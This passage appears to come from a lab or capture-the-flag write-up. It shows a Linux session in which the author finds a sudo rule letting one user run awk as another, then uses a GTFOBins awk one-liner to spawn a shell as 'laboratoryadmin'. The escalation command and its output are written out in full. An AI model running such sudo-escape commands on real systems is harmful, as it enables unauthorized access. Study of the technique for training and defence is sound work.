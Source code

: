 ```shell

Expanded Security Maintenance for Applications is not enabled.

2 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
New release '22.04.3 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Last login: Mon Sep  2 06:01:49 2024 from 192.168.209.112
pmccentral@laboratoryuser:~$ ls
desktop  documents  downloads
pmccentral@laboratoryuser:~$ id
uid=1001(pmccentral) gid=1001(pmccentral) groups=1001(pmccentral)
pmccentral@laboratoryuser:~$
```

- By roaming around found out that there is two user `pmclaboratoryadmin` & `pmccentral`

```shell
  pmccentral@laboratoryuser:/home$ sudo -l
[sudo] password for pmccentral: 
Matching Defaults entries for pmccentral on laboratoryuser:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pmccentral may run the following commands on laboratoryuser:
    (laboratoryadmin) /usr/bin/awk
  ```
- We can run /usr/bin/awk as a laboratoryadmin
- Let's Exploer <a href="https://gtfobins.github.io/gtfobins/awk/"> GTFObins </a> to that with awk beign able to execute sudo 


```shell
sudo awk 'BEGIN {system("/bin/sh")}'
```

- lets run this command as user laboratoryadmin

```shell
pmccentral@laboratoryuser:/home$ sudo -u laboratoryadmin awk 'BEGIN {system("/bin/bash")}'
laboratoryadmin@laboratoryuser:/home$ id
uid=1002(laboratoryadmin) gid=1002(laboratoryadmin) groups=1002(laboratoryadmin)
laboratoryadmin@laboratoryuser:/home$ whoami
laboratoryadmin
laboratoryadmin@laboratoryuser:/home$
```
- And BOOM we got access to laboratoryadmin
